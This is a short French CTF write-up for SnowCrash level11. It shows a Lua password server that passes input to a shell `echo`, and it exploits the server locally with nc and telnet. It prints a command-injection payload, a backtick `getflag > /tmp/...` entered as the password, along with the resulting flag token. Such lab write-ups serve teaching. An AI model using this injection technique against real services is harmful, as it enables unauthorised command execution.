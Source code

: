 # Level11

Sur le home de l'utilisateur level11, nous trouvons un fichier `level11.lua`.
```
level11@SnowCrash:~$ lua level11.lua
lua: level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	level11.lua:3: in main chunk
	[C]: ?
```
Le serveur est déjà lancé.
Dans le code nous pouvons voir que `echo` est utilisé afin de hasher le password pour faire une comparaison ulterieurement.
Ici nous pouvons utiliser telnet ou nc.
```
level11@SnowCrash:~$ nc localhost 5151
Password: `getflag > /tmp/nc11`
Erf nope..
level11@SnowCrash:~$ telnet localhost 5151
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: `getflag > /tmp/telnet11`
Erf nope..
Connection closed by foreign host.
level11@SnowCrash:~$ cat /tmp/nc11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
level11@SnowCrash:~$ cat /tmp/telnet11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
